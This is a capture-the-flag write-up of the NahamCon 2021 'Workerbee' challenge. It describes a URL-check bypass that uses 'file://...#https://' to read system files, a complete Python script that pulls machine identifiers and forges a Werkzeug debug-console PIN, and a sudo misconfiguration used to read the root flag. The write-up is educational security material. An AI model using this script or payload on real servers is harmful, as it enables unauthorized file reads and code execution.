







# Workerbee (NahamCon 2021)


### The Application

The Workerbee app is pretty simple on the surface. Enter a secure URL and it gets back content for you.



If you get https://github.com for example, it will print out its HTML content.




### First Attack Attempt

My initial thought was to try and break the rendering and see if I could get anywhere using [SSTI](https://portswigger.net/research/server-side-template-injection). I tried using a payload that would work on several different templating systems so I could try and figure out which one it was and from there but that failed.


### Found by chance

After a while of tinkering around with the website I noticed a link to `/workerbee` that I hadn't visited so I went to it and saw this. 



Now we know it's a Flask app running on python3.8 and if you look closely on the right hand side there is a console icon that will open a python console for you to debug the application!



### Fighting for the console

I excitedly clicked on the console but a popup asking for a PIN appeared on the screen

 

I tried several ways of going around it using javascript which would allow me to remove the popup and get to the console but every command would come back with a 500 response because the server knew I was not authenticated.

After some research I found out this is a Werkzeug console which according to their own documentation was never to be used in a production environment as it could be vulnerable to attacks. There are only a few pieces of information needed to generate this PIN and we can only get them from the victim machine. (Big shoutout to the people at [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug) for the info and big part of the script).

This new information means that we need to go back and figure out a way to get information on the machine.

After a lot of back and forth (and maybe some hints from the author) I found out that the requirement for `https://` was just a check for that string as a substring of the input but it didn't have to be at the beginning. This meant that `http://url.com#https:// ` was also seen as a valid *secure* URL by the application.

The real fun starts when I realized that just like we can use http instead of https we can also use the file protocol.


### Fishing for info

Now that we know we can use `file://` to get files from the machine we are going to need to find a few pieces of information to generate the same PIN and get to execute python on the victim machine.

These are the files that we'll need to read.

- `/proc/sys/kernel/random/boot_id` (Part of the 'machine id')
- `/proc/self/cgroup` (Part of the 'machine id')
- `/sys/class/net/eth0/address` (MAC address)

Because this was a CTF the instance would often run out of time as I was deep into research or testing and would forget to extend the time. And since this information may very well change from container to container, I scripted the attack on using the following python script.


```python
from bs4 import BeautifulSoup
import requests
import argparse
import hashlib
from itertools import chain

# Argparse
parser = argparse.ArgumentParser()
parser.add_argument("url", help="Workerbee victim url")
parser.add_argument("-v", "--verbose", help="increase output verbosity",
                    action="store_true")
args = parser.parse_args()

# Actual args
url = args.url

def _log(text):
    if args.verbose:
        print(text)

# get specific file from victim machine
def get_file_from_victim(filepath):
    _log("Getting file => " + filepath)
    page = requests.get(url, params = {
        'destination': 'file://' + filepath + '#https://'
    }) 
    soup = BeautifulSoup(page.content, 'html.parser')
    return soup.find('pre').get_text()

def get_machine_id():
    machine_id = ''

    boot_id = get_file_from_victim('/proc/sys/kernel/random/boot_id')
    machine_id += boot_id.strip()
    _log('Got boot_id of => {}'.format(machine_id))

    cgroup = get_file_from_victim('/proc/self/cgroup')
    cgroup_id = cgroup.splitlines()[0].strip().rpartition("/")[2]
    machine_id += cgroup_id
    _log("Got cgroup id of => {}".format(cgroup_id))

    _log("Complete machine_id => {}".format(machine_id))
    return machine_id

# Gets mac address as an integer (but in a string xD)
def get_mac_address():
    mac = get_file_from_victim('/sys/class/net/eth0/address')
    mac_int = int(mac.replace(':', ''), 16)
    mac_str = str(mac_int)
    _log('Got MAC in decimal as => {}'.format(mac_str)) 
    return mac_str

def generate_pin(probably_public_bits, private_bits):
    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print("This is the generated PIN")
    print(rv)

# file:///usr/local/lib/python3.8/dist-packages/werkzeug/__internal.py#https:// <-- Info to reverse this pin generation

probably_public_bits = [
    'workerbee',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    get_mac_address(),
    get_machine_id(),
]

generate_pin(probably_public_bits, private_bits)
```


And that's how I got the PIN working!




### Light at the end of the tunnel

After successfully entering the PIN and getting access to the python debug console I'll admit I spent way too much time looking for complicated privilege escalation vectors as I had had a hard time with the challenge so I thought this would be hard as well.

Ultimately after a while I noticed I had read access to the `/etc/sudoers` file and I took a look at it and there it was.

```
workerbee 	ALL=(root) NOPASSWD:ALL
```

Then it was as simple as `sudo cat /root/flag.txt`



### Thanks

A big shoutout to all the people at NahamCon 2021 and especially to John Hammond who authored this challenge.